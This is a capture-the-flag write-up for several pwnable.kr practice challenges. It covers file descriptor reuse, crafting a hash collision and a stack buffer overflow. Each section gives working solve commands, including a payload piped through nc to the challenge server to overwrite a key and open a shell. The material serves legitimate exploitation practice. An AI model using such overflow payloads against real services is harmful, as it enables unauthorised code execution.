  # Toddler's Bottle
## File Descriptor (fd challenge)
The given code was reading from a file descriptor, which is a process unique identifier for a file, which it can read or write from. Every process in Linux has 3 default file descriptors: 
0. stdin -> standard input
1. stdout -> standard output
2. strerr -> standard error
The code read from a given file descriptor minus 0x1234 offset and needed the string "LETMEWIN\n"
<u>Solve</u>
```bash
echo 'LETMEWIN' | ./fd 4660 
```
This puts the string "LETMEWIN\n" in the standard input because of the pipe, then the read is from file descriptor 0 which is the input because 4660 - 0x1234 is 0 (4660 decimal = 1234 hex)

## Find Hash Collision (collision challenge)
The challenge give a simple hash function that takes 4 bytes of the string each time, treats them as an int and sums them, then compares it to the hash of a password inside it. to get the right password just 
The given hash is 0x21DD09EC
To recreate something that passes the hash can just print all the hex numbers on after the other and then all zeros (Order is little endian)
```
./col $(python -c "print '\xec\x09\xDD\x21' + '\x00'*16")
```
This will not work because _strlen_ which is used to check the length of the string, will say the length is 4 because it stops when there is the 0 character, so every character must be at least one hex.
this means every int after our number will be 0x01010101 and there are 4 ints to the total number to subtract is 0x04040404
```
0x21DD09EC - 0x04040404 = 0x1DD905E8
```
so the bytes are \xe8\x05\xd9\x1d to print.
<u>Solve</u>
Python3 by default treats strings as UTF-8 and not byes, if it is printed with the 'b' prefix to the string, the output is a textual representation and to really write it we need the sys module 
```bash
./col $(python3 -c "import sys; sys.stdout.buffer.write(b'\xe8\x05\xd9\x1d' + b'\x01'*16)")
```
In python 2.7 when we print it prints the raw bytes to the stdout, so it just works.
```bash
./col $(python -c "print '\xe8\x05\xd9\x1d' + '\x01'*16")
```
## Buffer Over Flow (bof challenge)
The challenge was a simple function that uses the gets function for input, and it is needed to be overflowed to overwrite the key and get a shell to print the flag.
After reversing the function and analyzing it, this is what we get
![[Pasted image 20250120190239.png]]
We want to overflow the buffer until the key offset, and then put the right key, and for that we need to understand the stack of this function
_Assuming the base address EBP is zero_

| Address     | Value                          |
| ----------- | ------------------------------ |
| (-44)-(-12) | Input buffer to overflow       |
| (-12)-(-8)  | buffer overflow protrction     |
| (-8)-0      | # empy? (not relevant)         |
| 0-4         | saved EBP from main            |
| 4-8         | saved EIP from the _call func_ |
| 8-12        | KEY                  

After tracing the stack, we can infer how much we need to overflow the buffer, for example for this buffer, we need to overflow -44 which is the start of the buffer, all the way to +8 where the key is located, although this will overwrite the return pointer, which typical buffer overflow will want to target, it will continue the jump to a shell so we don't mind that. 
The wanted key is the number 0xCAFEBABE, so we need to input it backwards because of little endieness
#note 
Another interesting thing to notice is the _mov eax, large gs:14h_ instruction which reads from local thread storage into the eax register. this is a buffer overflow check, that is between our buffer and other variables, and it is check in the end of the function to defend the _EIP_ pointer, but it does not affect us, because we want to run a shell.

The command to overflow it in the correct is 
```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"a"* 52 + b"\xbe\xba\xfe\xca\n")'; cat) | nc pwnable.kr 9000
```
This command write 52 time the letter 'a' which overflows the buffer until the key (52 = 44 + 8), then we insert the bytes of the key in reverse, and we use the cat command so the session between us and the server will not close. then we forward it to the server with |, and we get the shell, in which we can write _cat flag_ to get the flag. 
## Reversing flag.elf (flag)
- Understand what is upx and how it works https://medium.com/@ankyrockstar26/unpacking-a-upx-malware-dca2cdd1a8de
- Understand how to see more strings in IDA 
- Understand when program is obfuscated (not seeing any strings)
- Understand how to remotely debug IDA program from other 
- 